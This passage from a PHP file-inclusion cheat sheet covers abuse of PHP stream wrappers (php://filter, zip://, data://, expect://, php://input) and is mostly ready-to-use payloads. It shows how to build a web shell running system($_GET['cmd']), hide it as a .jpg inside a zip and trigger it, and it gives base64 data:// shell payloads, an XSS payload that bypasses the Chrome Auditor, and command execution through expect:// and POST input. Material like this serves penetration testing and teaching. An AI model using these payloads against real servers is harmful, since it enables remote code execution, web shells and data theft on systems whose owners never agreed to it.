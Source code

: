 To read the comppression data you need to decode the base64 and read the resulting data using:

```bash
php -a #Starts a php console
readfile('php://filter/zlib.inflate/resource=test.deflated');
```

**NOTE: Wrappers can be chained**

### Wrapper zip://

Upload a Zip file with a PHPShell inside and access it.

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### Wrapper data://

```text
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

### Wrapper expect://

Expect has to be activated. You can execute code using this.

```text
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### Wrapper input://

Specify your payload in the POST parameters

```text
http://example.com/index.php?page=php://input
POST DATA: <? system('id'); ?>
```

### Wrapper phar://

Check [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)
